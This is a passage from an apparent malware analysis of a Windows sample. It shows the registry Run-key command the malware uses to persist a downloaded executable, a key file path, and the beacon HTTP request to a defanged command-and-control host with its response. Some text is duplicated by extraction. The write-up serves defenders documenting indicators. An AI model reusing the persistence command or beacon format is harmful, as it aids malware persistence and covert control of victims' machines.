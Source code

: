 reg add hkcu\software\microsoft\windows\currentversion\run /v netshare /f /d %temp%\notilv.exe /t REG_EXPAND_SZ





This registry key will ensure an executable that it later downloads is configured to persist across reboots. It then sends the 'exit' command to this executable, which will kill this particular process.
The malware then attempts to read the following file. This file is used to store a key that is later used to decrypt data received during network communications.

%temp%\ibmCon6.tmp

If the file does not exist, it will make the following GET request:





GET /index.php?fn=s4&name=4890c2d546fa48a536b75b48b17de023  
HTTP/1.1
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1;
Trident/6.0)
Host: biosnews[.]info
Connection: Keep-Alive




123456

GET /index.php?fn=s4&name=4890c2d546fa48a536b75b48b17de023  HTTP/1.1User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1;Trident/6.0)Host: biosnews[.]infoConnection: Keep-Alive





The filename and name parameters are statically set in the above request. The server responds with data similar to the following:





HTTP/1.1 200 OK
Date: Wed, 11 Mar 2015 00:14:14 GMT
Server: Apache/2.4.12 (Unix) OpenSSL/1.0.1e-fips
mod_bwlimited/1.4 mod_fcgid/2.3.10-dev
X-Powered-By: PHP/5.4.37
Keep-Alive: timeout=5
Connection: Keep-Alive
Transfer-Encoding: chunked
Content-Type: text/html
 
17
gh204503254
1916733707
 
0


